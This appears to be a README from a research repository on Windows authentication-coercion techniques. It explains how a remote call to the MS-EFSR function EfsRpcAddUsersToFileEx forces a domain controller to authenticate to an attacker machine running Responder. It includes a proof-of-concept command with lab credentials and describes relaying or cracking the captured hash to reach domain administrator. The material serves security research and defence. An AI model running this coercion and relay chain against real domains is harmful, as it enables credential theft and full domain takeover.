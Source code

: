 # MS-EFSR - Remote call to EfsRpcAddUsersToFileEx (opnum 15)

## Summary

+ **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

+ **Function name**: [`EfsRpcAddUsersToFileEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/d36df703-edc9-4482-87b7-d05c7783d65e)

+ **Function operation number**: `15`

+ **RPC Interfaces**:
  + Interface 1:
    + uuid=`c681d488-d850-11d0-8c52-00c04fd90f7e`
    + version=`1.0`
    + Accessible through:
      + SMB named pipe: `\PIPE\lsarpc`
      + SMB named pipe: `\PIPE\lsass`
      + SMB named pipe: `\PIPE\netlogon`
      + SMB named pipe: `\PIPE\samr`
  + Interface 2:
    + uuid=`df1941c5-fe89-4e79-bf10-463657acf44d`
    + version=`1.0`
    + Accessible through:
      + SMB named pipe: `\PIPE\efsrpc`

## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\lsarpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\lsarpc` This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. We will then call the remote [`EfsRpcAddUsersToFileEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/d36df703-edc9-4482-87b7-d05c7783d65e) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcAddUsersToFileEx('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

## Function technical detail

```cpp
DWORD EfsRpcAddUsersToFileEx(
    [in] handle_t binding_h,
    [in] DWORD dwFlags,
    [in, unique] EFS_RPC_BLOB* Reserved,
    [in, string] wchar_t* FileName,
    [in] ENCRYPTION_CERTIFICATE_LIST* EncryptionCertificates
);
```

+ **binding_h**: This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.

+ **dwFlags**: This MUST be set to a bitwise OR of 0 or more of the following flags. The descriptions of the flags are specified in the following table. If the `EFSRPC_ADDUSERFLAG_REPLACE_DDF` flag is used, then the EncryptionCertificates parameter MUST contain exactly one certificate.

| Name                                    | Value        |
|-----------------------------------------|--------------|
| `EFSRPC_ADDUSERFLAG_ADD_POLICY_KEYTYPE` | `0x00000002` |
| `EFSRPC_ADDUSERFLAG_REPLACE_DDF`        | `0x00000004` |

+ **Reserved**: This parameter is not used. It MUST be set to `NULL` by the client and ignored by the server.

+ **FileName**: An EFSRPC identifier, as specified in section 2.2.1.

+ **EncryptionCertificates**: A list of certificates, represented by an `ENCRYPTION_CERTIFICATE_LIST` structure, which are to be given access to the object.

## References

+ Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

+ Documentation of function `EfsRpcAddUsersToFileEx`: [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/d36df703-edc9-4482-87b7-d05c7783d65e](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/d36df703-edc9-4482-87b7-d05c7783d65e)
